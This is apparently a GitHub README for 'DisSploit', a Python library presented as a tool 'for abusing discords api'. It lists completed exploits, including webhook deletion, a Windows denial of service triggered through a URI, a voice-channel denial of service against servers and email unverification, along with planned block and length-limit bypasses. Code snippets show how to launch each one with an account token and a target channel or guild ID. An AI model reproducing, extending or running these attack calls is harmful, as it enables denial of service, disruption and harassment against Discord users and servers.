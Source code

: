 # DisSploit
A python3 library for abusing discords api
# Progress
Project is currently still in development
# ToDo
Complete   - ✔️<br>
Incomplete - ❌<br>
<br>
API Abuse:<br>
  Delete Webhook ✔️<br>
  Block Bypass ❌<br>
<br>
Render:<br>
  Mask Message ✔️ [PATCHED]<br>
  Edited Tag Position Changer ✔️<br>
<br>
URI:<br>
  Windows DoS ✔️<br>
<br>
Misc:<br>
  Glitched Mention ❌<br>
  Unverify Email ✔️<br>
  Custom Gif URL ❌<br>
  2000 Char Bypass ❌<br>
  Guild VC DoS ✔️<br>
<br>
# Documentation

Setting up exploits
```python
from DisSploit import Exploits

APISploits = Exploits.apiabuse()
RenderSploits = Exploits.render()
URISploits = Exploits.URI()
MiscSploits = Exploits.Misc()


```

API Abuse
```python
from DisSploit import Exploits

# Setting up library
APISploits = Exploits.apiabuse()

# Main code
APISploits.DeleteWebhook('webhook_url').execute()
```
Render Exploits
```python
from DisSploit import Exploits

# Setting up library
RenderSploits = Exploits.render()

# Main code
RenderSploits.editTagChange(token, channel_id, message)
```
URI Exploits
```python
from DisSploit import Exploits

# Setting up library
URISploits = Exploits.URI()

# Main code
URISploits.WDoS(token, channel_id)
```
Misc Exploits
```python
from DisSploit import Exploits

# Setting up library
MiscSploits = Exploits.Misc()

# Main code
MiscSploits.GuildVCDoS(token, guild_id)
MiscSploits.UnverifyEmail(token, channel_id)
```
